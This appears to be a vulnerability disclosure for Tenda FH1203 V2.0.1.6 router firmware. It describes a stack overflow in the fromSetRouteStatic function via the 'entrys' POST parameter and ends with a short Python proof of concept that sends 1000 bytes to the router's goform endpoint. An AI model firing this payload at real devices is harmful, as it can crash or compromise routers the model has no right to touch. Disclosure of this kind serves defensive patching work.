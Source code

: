 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `fromSetRouteStatic` function. The `v5` variable receives the `entrys` parameter from a POST request and is used in statement `sprintf(v15, "%s;%s", v12, (const char *)v14);`, which caused the buffer overflow attack. 

![image-20240320013608990](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320013608990.png)

![image-20240320013512469](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320013512469.png)

![image-20240320013520019](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320013520019.png)

The user-provided `entrys` can trigger this security vulnerability.

## POC

```python
import requests

IP = "192.168.84.101"
url = f"http://{IP}/goform/fromRouteStatic"
payload = b'a'*1000
data = {"entrys": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320013432318](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320013432318.png)